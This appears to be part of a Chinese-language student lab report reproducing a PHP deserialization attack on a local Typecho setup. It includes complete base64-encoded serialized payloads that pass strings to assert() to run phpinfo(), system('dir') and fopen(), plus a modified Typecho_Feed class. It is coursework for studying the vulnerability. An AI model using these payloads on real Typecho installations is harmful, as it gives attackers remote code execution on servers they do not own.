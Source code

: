 函数：使用 PHP 的 `assert()` 函数，如果该函数的参数是字符串，那么该字符串会被 `assert()` 当做 PHP 代码执行

参数：字符串 'phpinfo()' ，会被当做 PHP 代码执行

#### 2.序列化及应用执行

调用 `serialize($exp)` 对 `$exp` 序列化，访问exp.php 便可以获得payload，通过 get 请求的方式传递给 typecho.php 后，phpinfo() 成功执行。

#### 3.执行结果：

#### （1）phpinfo()

应用上面所示的方法，将参数设为phpinfo()：

首先，我们在浏览器中访问`http://127.0.0.1/exe.php` 获得 payload：![20250529-161559.700-1](D:\许洋计算机科学与技术\软件安全\作业\实验13\实验13\20250529-161559.700-1.jpg)

将payload复制下来`YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjk6InBocGluZm8oKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fX19`

然后通过 get请求的方式传递给 typecho.php 后，phpinfo()成功执行：![20250529-161559.700-2](D:\许洋计算机科学与技术\软件安全\作业\实验13\实验13\20250529-161559.700-2.jpg)


#### （2）执行其他系统函数

将 `phpinfo() `替换为`system(\'dir\')`： 得到如下代码`YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjEzOiJzeXN0ZW0oJ2RpcicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX0=`，继续重复上述操作得到![20250529-161559.700-4](D:\许洋计算机科学与技术\软件安全\作业\实验13\实验13\20250529-161559.700-4.jpg)

因为系统没有将c盘给予访问权限，所以没有读取到，我们尝试其他的函数。

将 `phpinfo() `替换为`fopen(\'newfile.txt\', \'w\')`：得到如下代码`YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjI1OiJmb3BlbignbmV3ZmlsZS50eHQnLCAndycpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX0=`，继续重复上述操作得到

![3](D:\许洋计算机科学与技术\软件安全\作业\实验13\实验13\20250529-161559.700-3.jpg)

可以看到，成功执行了系统函数，创建了新的文件。

在用第二个函数过程中我们也进行了修改，对typecho.php文件中的`Typecho_Feed`类做了一定的修改，确保`__toString()`方法能够返回一个字符串。修改后如下：

```php
class Typecho_Feed {
    private $item;

    public function __toString() {
        if (isset($this->item['author']) && isset($this->item['author']->screenName)) {
            return $this->item['author']->screenName;
        } else {
            return '';
        }
    }
}
```

